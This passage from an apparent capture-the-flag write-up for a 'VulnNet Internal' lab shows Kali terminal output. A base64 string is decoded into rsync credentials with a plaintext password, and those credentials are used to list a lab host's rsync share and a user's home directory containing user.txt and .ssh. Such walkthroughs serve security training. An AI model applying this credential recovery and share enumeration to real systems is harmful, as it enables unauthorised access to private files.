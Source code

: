 ~~~
~~~

The encoded string revals the rsync connection string as well as the password:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
~~~

## rsync

Connecting to the rsync server reveals a `files` directory:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync --list-only rsync://10.10.190.83                                                                     23 ⨯
files          	Necessary home interaction
~~~

There is a subfolder called `sys-internal` which contains the user flag.

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync --list-only rsync://rsync-connect@10.10.190.83/files
Password: Hcg3HP67@TW@Bc72v
drwxr-xr-x          4,096 2021/02/01 13:51:14 .
drwxr-xr-x          4,096 2021/02/06 13:49:29 sys-internal

┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 13:49:29 .
-rw-------             61 2021/02/06 13:49:28 .Xauthority
lrwxrwxrwx              9 2021/02/01 14:33:19 .bash_history
-rw-r--r--            220 2021/02/01 13:51:14 .bash_logout
-rw-r--r--          3,771 2021/02/01 13:51:14 .bashrc
-rw-r--r--             26 2021/02/01 13:53:18 .dmrc
-rw-r--r--            807 2021/02/01 13:51:14 .profile
lrwxrwxrwx              9 2021/02/02 15:12:29 .rediscli_history
-rw-r--r--              0 2021/02/01 13:54:03 .sudo_as_admin_successful
-rw-r--r--             14 2018/02/12 20:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 13:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 12:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 12:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 10:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 13:53:57 .config
drwx------          4,096 2021/02/01 13:53:19 .dbus
drwx------          4,096 2021/02/01 13:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 13:53:22 .local
drwx------          4,096 2021/02/01 14:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 12:43:14 .ssh
drwx------          4,096 2021/02/02 12:16:16 .thumbnails
drwx------          4,096 2021/02/01 13:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 13:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 14:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 13:53:22 Music
drwxr-xr-x          4,096 2021/02/01 13:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 13:53:22 Public
drwxr-xr-x          4,096 2021/02/01 13:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 13:53:22 Videos
~~~
